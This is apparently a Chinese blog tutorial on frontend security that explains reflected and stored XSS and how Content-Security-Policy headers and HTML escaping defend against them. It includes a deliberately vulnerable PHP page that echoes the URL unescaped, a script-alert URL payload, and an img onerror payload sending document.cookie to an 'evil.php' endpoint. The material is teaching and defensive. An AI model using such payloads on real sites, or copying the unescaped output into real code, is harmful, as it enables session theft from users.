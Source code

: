```yaml
---
path: '/csp-n-xss'
date: '2020-02-13T11:45:59.470Z'
title: '前端网络安全必修 2 XSS 和 CSP'
tags: ['coding', '网络安全']
---
```


回顾上一篇：[前端网络安全必修 1 SOP、CSRF 和 CORS](/2019-11-08-csrf-n-cors/)

本文主要涉及内容为：

- 跨站脚本攻击（Cross-site scripting，简称 XSS）
- 内容安全策略（Content-Security-Policy，简称 CSP）

因为 CSP 诞生的主要目的就是防御 XSS 攻击，就把 XSS 放在前面讲吧~

## XSS

```html
<html>
  <body>
    <? php
print "Not found: " . urldecode($_SERVER["REQUEST_URI"]);
?>
  </body>
</html>
```

这是一个找不到页面时的通用提示代码，同时，也是一个极容易被 XSS 攻击的例子，它很老实地把用户发送的东西都直接塞到 html 里。

当然，你在访问 `http://testsite.test/file_which_not_exist` 的时候它会很正常地表现为：

```
Not found: /file_which_not_exist
```

但是如果想做点坏事，访问 `http://testsite.test/<script>alert("我要做坏事");</script>`，结果会是：

```
Not found: /
```

虽然看起来后面什么都没有，但是如果什么防范措施都没有的话，**js 脚本已经顺利运行了**。

一般这种攻击能做的坏事是盗取用户 cookie，例如插入这样一段代码：

```html
<img
  src="xx"
  onerror="post('../evil.php?cakemonster=' + escape(document.cookie))"
/>
```

上面这种**利用错误信息和搜索结果的反射**进行的 XSS，称为**反射型 XSS**。

还有另一种 XSS 是**储存型 XSS**。

储存型也比较容易理解，**攻击者把恶意脚本提交到被害服务器**，并成功储存，所有人访问特定页面都会遭到攻击。

举个例，要放到富文本编辑器的内容如果不小心处理就很容易被储存型 XSS 攻击。

你可以在[这里](https://jsxss.com/zh/try.html)对比一下 XSS 过滤前后的区别。

另外还有恶名昭彰的 SQL 注入，原理也是差不多。

## html 安全注入

html 会不安全，是因为 `<` 和 `>` 等符号在 html 里都是有内涵的符号，如果像上面一样直接把 `<>` 插到 html 中，处理器自然会认为那是一个标签，而不是小于号和大于号。

对 html 字符串来说，真正的小于号是 `&lt;`，大于是 `&gt;`，意思就是 less than 和 greater than，类似的还有空格 `&nbsp;`。

上面提到的**转义字符**分为 `&` + 实体名称 + `;` 三个部分，你也可以使用**实体编号**而不是**实体名称**。例如 `#60` 是 `lt` 的实体编号，`&lt;` 和 `&#60;` 渲染出来就是同一个东西。

那么实体编号怎么查呢？建议直接用 `charCodeAt()`：

```javascript
'网'.charCodeAt() // => 32593
```

`&#32593;` 就等于“网”字，如果你愿意，甚至可以全都使用实体编号来代替文字 😂

以上是当你使用 php 等处理得到的 html 或是使用 JavaScript 的 **innerHTML** 赋值等 dom 操作时需要注意的内容（react 用户可能知道，react 已经用属性名 `dangerouslySetInnerHTML` 很明确告诉你这个操作很危险）。如果你是使用 `innerText` 插入的话你插入的是普通字符串而不是作为 html 插入，所以放心使用 `<>` 吧，他们就是小于和大于的意思 😀

## CSP

CSP 就是一个**白名单机制**，只允许你的网页里读取指定域名的资源，可用于防止 XSS 攻击。

使用 CSP 的第一种方法是在 HTTP 头定义 Content-Security-Policy：

```
Content-Security-Policy: default-src https://cdn.example.net https://cdn.example2.net; object-src 'none'
```

CSP 的值中，不同属性以 `;` 隔开，同一属性的多个值以空格隔开。上面例子的意思就是默认允许读取 https://cdn.example.net 和 https://cdn.example2.net 的资源，object-src 使用的相关资源无白名单，也就是完全不允许读出。

如果使用了不符合要求的资源，**浏览器**会给予拦截，给出下面的提示：

```
Refused to execute inline script because it violates the following Content Security Policy directive
```

你也可以使用 meta 标签代替 HTTP 头：

```html
<meta
  http-equiv="Content-Security-Policy"
  content="default-src https://cdn.example.net; child-src 'none'; object-src 'none'"
/>
```

Content-Security-Policy 的常用选项有这些：

- **default-src** 是 src 选项的默认值，但不能覆盖以下值：base-uri、form-action、frame-ancestors、plugin-types、report-uri、sandbox
- **base-uri** 特别说一下 `<base>` 标签是因为孤陋寡闻的我第一次见到。 指定用于一个文档中包含的所有相对 URL 的根 URL，一个文件只能有一个 `<base>` 标签，用起来大概是这样的：`<base target="_top" href="http://www.example.com/">`。
- **connect-src** XHR、WebSockets 等连接使用的地址
- **font-src** 字体文件来源
- **img-src** 图片地址
- **media-src** 音视频地址
- **object-src** Flash 相关
- **report-uri** 出现报错时提交到指定 uri，不能在 `<meta>` 标签使用
- **style-src** 样式文件

在资源列表中除了指定域名，你还可以使用下面四个关键词，注意**一定要加单引号**：

- **'none'** 不进行匹配
- **'self'** 当前域名，不包含子域名
- **'unsafe-inline'** 允许行内 JavaScript 与 CSS
- **'unsafe-eval'** 允许类 eval 操作

当 CSP 正确设置，XSS 插入的行内代码或外部 js 文件就会被拦截。当然这是最后一道防线了，前面提到的关键字过滤也是对付 XSS 的好方法。

要说的基本就这么多，希望大家以后在使用 php、jsp 等后端语言构造 html 文档时要认真思考有没有 XSS 漏洞；另外，在前后端分离发展蓬勃的今天，XSS 可能出现在富文本编辑器中，也同时需要多加注意。

## 拓展阅读

[CSP Cheat Sheet](https://scotthelme.co.uk/csp-cheat-sheet/)

[meta 标签 mdn 文档](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/meta)

[base 标签 mdn 文档](https://developer.mozilla.org/zh-CN/docs/Web/HTML/Element/base)

## 参考

**重点推荐** [An Introduction to Content Security Policy](https://www.html5rocks.com/en/tutorials/security/content-security-policy/)

[CROSS-SITE SCRIPTING (XSS) TUTORIAL](https://www.veracode.com/security/XSS)

[html 转义字符串](http://caibaojian.com/576.html)
